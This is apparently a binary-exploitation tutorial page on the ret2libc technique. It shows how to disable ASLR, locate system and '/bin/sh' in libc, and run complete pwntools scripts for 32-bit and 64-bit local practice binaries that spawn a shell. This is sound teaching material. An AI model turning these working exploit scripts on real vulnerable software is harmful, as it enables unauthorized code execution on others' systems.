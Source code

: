 ```yaml
---
description: The standard ROP exploit
---
```


# ret2libc

A ret2libc is based off the `system` function found within the C library. This function executes anything passed to it making it the best target. Another thing found within libc is the string `/bin/sh`; if you pass this string to `system`, it will pop a shell.

And that is the entire basis of it - passing `/bin/sh` as a parameter to `system`. Doesn't sound too bad, right?

{% file src="../.gitbook/assets/ret2libc.zip" caption="ret2libc" %}

## Disabling ASLR

To start with, we are going to disable ASLR. ASLR randomises the location of libc in memory, meaning we cannot \(without other steps\) work out the location of `system` and `/bin/sh`. To understand the general theory, we will start with it disabled.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```text
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

> Note: Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.

### Getting the location of system\(\)

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```text
$ readelf -s /lib32/libc.so.6 | grep system
1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```text
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit \(should be called something like `/lib/x86_64-linux-gnu/libc.so.6`\).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```text
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # Search for the string + grab 1st occurence

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

> Note: Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.


